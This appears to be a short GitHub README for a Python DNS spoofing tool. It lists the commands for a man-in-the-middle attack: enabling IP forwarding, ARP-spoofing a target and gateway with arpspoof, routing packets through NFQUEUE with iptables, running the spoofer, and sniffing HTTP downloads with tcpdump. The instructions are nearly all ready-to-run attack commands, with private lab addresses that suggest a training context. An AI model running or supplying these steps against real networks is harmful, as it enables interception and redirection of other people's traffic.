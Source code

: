 DNS Spoofing is a program to spoof dns entries.  
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
usage - sudo python3 dnsspoof.py eth0  
  <pre>
Steps:  
    0. Update target website link and spoofing link in script.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
	To test in local system or same system  
           1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
           2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
        To test in other system, target system  
           1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. python3 dnsspoof.py eth0  
    5. To check if its working  
	1. tcpdump -i eth0 udp port 53  
	2. sudo iptables -L -v -n  
	3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
	4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
	1. iptables --flush  
	2. iptables -t nat -F  
  </pre>  
Run the steps following them and we can spoof dns records.  
  
Requirements - install required libraries. For help, refer tools section
